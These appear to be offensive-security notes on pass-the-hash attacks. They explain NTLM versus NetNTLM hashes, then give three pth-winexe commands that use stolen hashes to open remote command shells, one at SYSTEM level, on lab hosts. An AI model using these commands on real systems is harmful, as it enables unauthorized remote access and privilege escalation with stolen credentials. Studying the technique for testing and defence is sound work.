

pth-winexe (NTLM hash)
Prerequisite:
• NTLM hash & user
Little parethesis
“NetNTLM”, are “salted” NTLM hash. (I say salted because it’s a little easier to understand, but really it’s a hashed response to a challenge).
NetNTLM hash can not be used with PTH. If we have recovered NetNTLM hash, we can crack it offline or try to capture it again and perform an SMB relay attack
The types of hashes you can use with PTH are NTLM hashes.
To get the NTLM hashes, we have to have to exploit a system through some other means and wind up with SYSTEM privs. Then you can dump local SAM hashes through Meterpreter, Empire, or some other tool.
PTH-suite
To login remotely using NTLM hash we can use pth-winexe, tool of the suite pth-toolkit(https://github.com/byt3bl33d3r/pth-toolkit)
example:
With the below credentials stolen we can mount the attack (to use pwdump program we need be anyway already admin!)

pth-winexe -U WIN-TL9US2GEKA2/danie%B267DF22CB945E3EAAD3B435B51404EE:F99C08F99EBC65182E969E9021E827F3 //192.168.1.118 cmd.exe

example 2: command prompt
root@kali:/# pth-winexe -U 'admin%aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da' //192.168.147.213 cmd.exe
example 3: SYSTEM level command prompt
root@kali:/# pth-winexe --system -U 'admin%aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da' //192.168.147.213 cmd.exe